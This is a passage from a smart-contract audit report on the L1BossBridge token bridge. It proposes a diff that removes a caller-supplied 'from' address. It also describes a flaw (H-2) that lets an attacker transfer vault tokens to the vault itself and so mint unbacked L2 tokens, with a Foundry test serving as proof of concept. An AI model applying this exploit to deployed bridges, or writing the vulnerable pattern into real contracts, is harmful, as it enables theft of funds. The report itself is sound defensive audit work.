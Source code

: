 Consider modifying the `depositTokensToL2` function so that the caller cannot specify a `from` address.

```diff
- function depositTokensToL2(address from, address l2Recipient, uint256 amount) external whenNotPaused {
+ function depositTokensToL2(address l2Recipient, uint256 amount) external whenNotPaused {
    if (token.balanceOf(address(vault)) + amount > DEPOSIT_LIMIT) {
        revert L1BossBridge__DepositLimitReached();
    }
-   token.transferFrom(from, address(vault), amount);
+   token.transferFrom(msg.sender, address(vault), amount);

    // Our off-chain service picks up this event and mints the corresponding tokens on L2
-   emit Deposit(from, l2Recipient, amount);
+   emit Deposit(msg.sender, l2Recipient, amount);
}
```

### [H-2] Anyone might mint unbacked tokens

As explained in the H-1 issue, the `depositTokensToL2` function allows the caller to specify the `from` address, from which tokens are taken.

Because the vault grants infinite approval to the bridge already (as can be seen in the contract's constructor), it's possible for an attacker to call the `depositTokensToL2` function and transfer tokens from the vault to the vault itself. This would allow the attacker to trigger the `Deposit` event any number of times, presumably causing the minting of unbacked tokens in L2.

As a PoC, include the following test in the `L1TokenBridge.t.sol` file:

```javascript
function testCanTransferFromVaultToVault() public {
    vm.startPrank(attacker);

    // assume the vault already holds some tokens
    uint256 vaultBalance = 500 ether;
    deal(address(token), address(vault), vaultBalance);

    // Can trigger the `Deposit` event self-transferring tokens in the vault
    vm.expectEmit(address(tokenBridge));
    emit Deposit(address(vault), address(vault), vaultBalance);
    tokenBridge.depositTokensToL2(address(vault), address(vault), vaultBalance);

    // Any number of times
    vm.expectEmit(address(tokenBridge));
    emit Deposit(address(vault), address(vault), vaultBalance);
    tokenBridge.depositTokensToL2(address(vault), address(vault), vaultBalance);

    vm.stopPrank();
}
```

As suggested in H-1, consider modifying the `depositTokensToL2` function so that the caller cannot specify a `from` address.
